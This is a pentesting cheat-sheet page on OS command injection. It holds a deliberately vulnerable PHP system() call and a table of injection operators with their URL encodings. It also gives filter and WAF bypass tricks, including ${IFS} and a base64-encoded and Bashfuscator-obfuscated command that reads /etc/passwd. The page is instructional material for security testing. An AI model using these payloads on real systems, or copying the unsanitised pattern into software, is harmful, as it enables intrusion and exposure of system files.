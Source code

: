 ```yaml
---
description: Execute system commands on the back-end server
---
```


# Command Injections

There are serveral type of injections foundin web apps. The most common are:

| Injection            | Description                                               |
| -------------------- | --------------------------------------------------------- |
| OS Command Injection | User input is used as part of an OS command.              |
| Code Injection       | User input is used within a function that evaluates code. |
| SQL Injection        | User input is used as part of an SQL query.               |
| XSS/HTML Injection   | User input is displayed on a web page.                    |

### <mark style="color:yellow;">OS Command Injections</mark>

With OS command injections the user input must go into a web query that is executing system commands. Therefore look for function in programming languages that execute system commands.

#### PHP

web application written in `PHP` may use the `exec`, `system`, `shell_exec`, `passthru`, or `pope` .

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>
```

Here touch is executed but without sanitation making it vulernable.

### Detection

Finding out wether input is vulnerable for command injection

|            |        |             |                                            |
| ---------- | ------ | ----------- | ------------------------------------------ |
| Semicolon  | `;`    | `%3b`       | Both                                       |
| New Line   |        | `%0a`       | Both                                       |
| Background | `&`    | `%26`       | Both (second output generally shown first) |
| Pipe       | `\|`   | `%7c`       | Both (only second output is shown)         |
| AND        | `&&`   | `%26%26`    | Both (only if first succeeds)              |
| OR         | `\|\|` | `%7c%7c`    | Second (only if first fails)               |
| Sub-Shell  | ` `` ` | `%60%60`    | Both (Linux-only)                          |
| Sub-Shell  | `$()`  | `%24%28%29` | Both (Linux-only)                          |

### <mark style="color:yellow;">Bypassing Front-End validation</mark>

It can happen input is only validated on the front-end and not on the back-end. To bypass front-end validation we can url encode for example.

We can use && to chain commands

```bash
ping -c 1 127.0.0.1 && whoami
```

Or use the `OR` (`||`) operator which only executes the second command if the first command fails to execute.

#### Other operators

| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| --------------------------------------- | ------------------------------------------------- |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        |  `%0d` `%0a` `%09`                                |

### <mark style="color:yellow;">Filter/WAF Detection</mark>

Web applications may use a WAF which has a list of blacklisted characters. Try various chars to see which are not blocked. For spaces filter:

{% hint style="info" %}
Spaces blacklisted can be bypassed various ways:

* Tabs = %09
* IFS = ${IFS}
* Brace expansions = {ls,-la}
{% endhint %}

Other solution is to use path for `/` here.

```bash
echo ${PATH:0:1}
/
```

Or a semcolon:

```bash
echo ${LS_COLORS:10:1}
;
```

Or encode with base64

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

We can utilize for obfuscating bash commands [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```bash
$ /bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```
